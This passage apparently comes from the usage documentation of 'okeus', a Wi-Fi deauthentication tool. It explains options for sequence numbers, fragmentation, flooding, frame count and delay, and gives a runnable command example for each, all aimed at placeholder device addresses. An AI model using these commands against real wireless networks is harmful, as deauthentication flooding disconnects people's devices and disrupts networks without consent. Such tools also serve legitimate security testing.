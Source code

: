 *To manually set the sequence number call `--sequence` followed by the sequence number. This can range from 1-4095. Each frame sent will
have the same sequence number.*
```bash
$ sudo okeus -d 11:22:33:44:55:66 -n aa:bb:cc:dd:ee:ff -i wlan1 --sequence 100
```

*Manual fragmentation and sequence input can be used together. Each frame will be sent using the same fragmentation and sequence number.*
```bash
$ sudo okeus -d 11:22:33:44:55:66 -n aa:bb:cc:dd:ee:ff -i wlan1 --fragment 5 --sequence 10
```

*Likewise random fragmentation and auto sequencing can also be used together to take care of some interesting way to craft a frame. By using
both `--rand-frag` and `--auto-seq` together the program will randomly cycle through fragmentation bits until, at random, a bit is chosen
that will end the random fragmentation and move the sequence bit 1 position up.*
```bash
$ sudo okeus -d 11:22:33:44:55:66 -n aa:bb:cc:dd:ee:ff -i wlan1 --rand-frag --auto-sequence
```

---

#### `-f`, `--flood`
*`-f` or `--flood` gives us a unique method of sending deauth frames, that might not exactly perform as a deauth frame is traditionally
expected to. This option, by default, will send frames until the user interupts the program (ctrl + c) at a rate of 1 frame per .1 seconds.
This will send up to 600 deauth frames per minute to the intended target. No additional arguments are required with `--flood`.*
```bash
$ sudo okeus -d 11:22:33:44:55:66 -n aa:bb:cc:dd:ee:ff -i wlan1 --flood
```

---

#### `-c`, `--count`
*The `-c`, `--count` option gives the user to send a certain number of frames and once completed the program will end. This can be combined
with `--flood` to give the user increased flexibility. The below example will send 25 frames to `11:22:33:44:55:66` and then stop. Default
behavior is to send a single deauth frame.*
```bash
$ sudo okeus -d 11:22:33:44:55:66 -n aa:bb:cc:dd:ee:ff -i wlan1 -c 25
```

---

#### `--delay`
*`--delay` allows the user to specify an amount of time between sending frames. This delay is specified in milliseconds. This option can be
used with `--flood` to give the user more flexibility. The below example shows a delay of 500 ms or .5 seconds between frames. Default
behavior is to send frames immediately with no delay (except with `--flood` as mentioned earlier).*
```bash
$ sudo okeus -d 11:22:33:44:55:66 -n aa:bb:cc:dd:ee:ff -i wlan1 --delay 500
```

---